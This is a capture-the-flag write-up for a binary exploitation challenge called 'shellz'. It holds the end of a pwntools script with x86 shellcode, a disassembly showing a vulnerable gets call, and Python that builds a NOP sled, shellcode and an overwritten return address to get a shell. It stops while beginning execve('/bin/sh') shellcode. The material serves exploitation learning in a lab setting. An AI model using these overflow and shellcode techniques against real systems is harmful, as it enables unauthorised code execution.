 ```
                    xor edx, edx
                    mov al, 0x3
                    mov bx, 0x3E8
                    mov ecx, esp
                    mov dl, 0xFF
                    int 0x80

                    xchg eax, edx
                    mov al, 0x4
                    mov bx, 0x1
                    int 0x80

                    add esp, 0x3E8
                    """)

p.sendline(shellcode)

p.interactive()
```

shellz
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
 - Working out where to jump to, to run our shellcode: after running the program in `gdb` several times I found that the random stack address the program outputs was somewhere in the buffer on the stack. So I can just make a nopsled to fill in the start of the buffer until where my shellcode is (at the end of the buffer).
 - Shellcode only works within the buffer: I didn't face this problem since for some reason I padded the gap between the end of the buffer and the return address with garbage. But when I was experimenting after and I removed this padding, I found that if any of my shellcode was outside of the buffer and in the gap between the buffer and the return address, it wouldn't work. Still not sure why. Maybe only the buffer is executable but I'm not sure how I can properly deduce that.

Script/Command used (Writeup)
------------------
Unlike the previous task, this program doesn't conveniently run shellcode. Looking at the assembly reveals that `gets` is used so we should be able to overwrite the return address to jump to our shellcode.
```
 804925f:       8d 85 fc df ff ff       lea    eax,[ebp-0x2004]
 8049265:       50                      push   eax
 8049266:       e8 e5 fd ff ff          call   8049050 <gets@plt>
```
So we have a 0x2000 byte buffer (ends at ebp-0x4). When we run the program we get a random stack address which is somewhere in this buffer. So the plan is to have a nopsled in this buffer and then our shellcode at the end of the buffer. We also make sure our shellcode ends at ebp-0x4 since thats when the buffer actually ends:
```
#buffer is at ebp-0x2004 and return addr is at ebp+0x4, but then we need to account for the actual return address which is 4 bytes
#stack_addr is the address the program gives us
payload_len = 0x2008 + len(stack_addr)

#keep our shellcode within buffer by padding ebp-0x4 to ebp+0x4
nop_sled = b'\x90' * (payload_len-len(shellcode)-8-len(stack_addr))
payload = nop_sled + shellcode + b'A'*8 + stack_addr
```
Now the logic is sorted let's make the actual shellcode. What we want to do is execute `/bin/sh` to get a shell on the target which is usually done in C with `execve('/bin/sh', NULL, NULL)`. We specify the program path as /bin/sh but we don't get about environment or argument parameters so we set them to NULL. Let's work out how we can get this string '/bin/sh' into our shellcode (on the stack).